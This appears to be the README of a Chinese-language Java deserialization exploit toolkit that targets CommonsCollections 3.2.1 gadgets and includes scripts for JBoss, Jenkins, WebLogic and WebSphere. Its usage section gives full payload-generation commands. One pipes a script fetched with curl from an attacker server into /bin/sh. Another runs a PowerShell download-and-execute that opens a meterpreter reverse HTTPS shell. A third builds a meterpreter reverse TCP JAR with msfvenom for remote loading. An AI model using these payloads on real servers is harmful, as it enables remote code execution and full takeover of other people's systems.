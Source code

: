 Java Untrusted Deserialization Exploits Tools
---

### 文件说明

    .
    |____README.md
    |____exserial.jar     基于 CommonsCollections <= 3.2.1 的 Gadget 生成程序
    |____scripts
    | |____jboss.py       JBoss JMXInvokerServlet 利用脚本
    | |____jenkin.py      Jenkins CLI 利用脚本
    | |____weblogic.py    WebLogic 利用脚本
    | |____websphere.py   WebSphere 利用脚本

### 使用方法

`exserial.jar` 目前包含两种 Payload 生成模式：`CommandExec` 和 `ClassInject`

    $ java -jar exserial.jar
    Java Deserialize Exploit Gadget With (commons-collections <= 3.2.1)
    Usage: java -jar exserial.jar [module type]
        Available module types:
            CommandExec
            ClassInject

#### 1. CommandExec 模式

用于直接在目标服务器上执行系统命令，可以根据不同的目标环境调整攻击配置：

    $ java -jar exserial.jar CommandExec
    Java Deserialize Exploit Gadget With (commons-collections <= 3.2.1)
    Usage: java -jar exserial.jar CommandExec [platform] [command to execute]
        Available platform types:
            Win
            Linux
            OSX
            
针对目标为 Linux 的系统，可以执行如下命令生成 Payload，使目标成功执行命令后加载我们指定的脚本文件进行执行：

    $ java -jar exserial.jar CommandExec Linux "curl http://myserver.com/todo.sh|/bin/sh" > demo1.ser
    
针对目标为 Windows 的系统，可以借助 Powershell 来获取 Shell 或者加载我们指定的脚本进行执行（下面为利用 [PowerSploit](https://github.com/PowerShellMafia/PowerSploit) 中的 `Invoke--Shellcode.ps1` 脚本反弹类型为 `windows/meterpreter/reverse_https` 的 Shell）：

    $ java -jar exserial.jar CommandExec Win "powershell IEX (New-Object Net.WebClient).DownloadString('http://myserver.com/CodeExecution/Invoke--Shellcode.ps1');Invoke-Shellcode -Payload windows/meterpreter/reverse_https -Lhost 192.168.130.1 -Lport 4444 -Force" > demo2.ser
    
![](./screenshots/1.png)

#### 2. ClassInject 模式

用于使目标服务器动态加载我们指定的 JAR 包并执行指定类名的 `main` 方法。

例如，可以使用 `msfvenom` 生成基于 [Metasploit](https://github.com/rapid7/metasploit-framework) 框架的 `java/meterpreter/reverse_tcp` JAR 包：

    $ msfvenom --payload="java/meterpreter/reverse_tcp" LHOST=192.168.130.1 LPORT=4444 -t jar > java_meterpreter_reverse_tcp.jar
    
然后将 `java_meterpreter_reverse_tcp.jar` 包至于一服务上用于目标服务器进行加载，然后使用 `exserial.jar` 生成对应的 Payload：

    $ java -jar exserial.jar ClassInject "http://myserver.com/java_meterpreter_reverse_tcp.jar" "metasploit.Payload" > demo3.ser

![](./screenshots/2.png)

### 更新记录

* 2015-12-07    基于 CommonsCollections <= 3.2.1 Gadget 生成程序 exserial.jar（包含 jboss、jenkins、weblogic、websphere 利用脚本）
* 2015-12-10    更新目录结构 & 修复 websphere.py 利用脚本 bug
* 2015-12-12    增加 ClassInject Gadget 执行链生成类 和 反序列化本地测试类
